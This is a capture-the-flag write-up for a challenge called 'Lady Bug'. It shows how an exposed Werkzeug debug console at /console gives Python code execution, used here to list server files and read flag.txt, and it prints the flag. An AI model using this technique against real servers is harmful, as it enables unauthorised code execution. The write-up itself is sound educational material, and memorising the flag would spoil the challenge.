


# Lady Bug
Author: [gallifrey](https://github.com/gall1frey)

# Challenge

```
Want to check out the new Ladybug Cartoon? It's still in production, so feel free to send in suggestions!

Connect with one instance below:
http://one.jh2i.com:50018
```

# Solution
There was a contact page on the site, where I first spent a lot of time, but that 
wasn't the way to go.
The next obvious place was the search bar.
I tried searching random text and took a look at the request headers and response headers.

There, I found something interesting:



The server is running werkzeug.
On googling stuff about werkzeug, I found that the debugging console is located at ```/console``` 
unless it is explicitly turned off.
Turns out it wasn't



From here, I can use python to get the flag from the flag.txt file present on the server

```python

[console ready]
>>> from os import listdir
>>> from os.path import isfile, join
>>> files = [f for f in listdir('./') if isfile(join('./', f))]
>>> print(files)
['flag.txt', 'main.py', 'requirements.txt']

f = open('flag.txt','r').read()
>>> print(f)
flag{weurkzerg_the_worst_kind_of_debug}

```

Flag is
```
flag{weurkzerg_the_worst_kind_of_debug}
```
